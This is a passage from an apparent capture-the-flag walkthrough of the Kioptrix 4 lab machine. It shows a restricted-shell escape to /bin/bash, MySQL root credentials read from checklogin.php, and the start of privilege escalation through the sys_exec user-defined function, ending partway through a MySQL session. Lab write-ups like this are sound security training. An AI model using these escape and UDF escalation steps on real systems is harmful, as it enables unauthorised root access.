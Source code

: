 
```
echo os.system("/bin/bash")

```
In the root web directory the file `checklogin.php ` contains `mysql` creds  for `root `:

```
robert@Kioptrix4:/var/www$ cat checklogin.php

$host="localhost"; // Host name
$username="root"; // Mysql username
$password=""; // Mysql password

```

## Privesc 
### First Method
SInce `Mysql ` is running as root from this command output : 

```
ps aux | grep mysql
root      4815  0.0  0.0   1772   528 ?        S    02:34   0:00 /bin/sh /usr/bin/mysqld_safe
root      4857  0.0  1.8 127268 19284 ?        Sl   02:34   0:03 /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --user=root --pid-file=/var/run/mysqld/mysqld
root      4859  0.0  0.0   1700   556 ?        S    02:34   0:00 logger -p daemon.err -t mysqld_safe -i -t mysqld
robert    5268  0.0  0.0   3008   772 pts/2    S+   04:38   0:00 grep mysql

```
so we need to find a way to use `Mysql` root access to privesc , one way to do that is through module called `*User Defined Function* `(or UDF) , this module allows us to execute system commands within mysql ,So, I issued the `locate udf` command to see if the library was installed on the system.

```bash
locate udf

/usr/lib/lib_mysqludf_sys.so

```

So we logged in as root without a password then we used mysql database and select all entities from func table which is the table that contains UDF. We found a function called sys_exec that we will try to use for privilege escalation.



```

robert@Kioptrix4:/var/www$ mysql -uroot -p    
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 4423
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------------+
| Tables_in_mysql           |
+---------------------------+
| columns_priv              | 
| db                        | 
```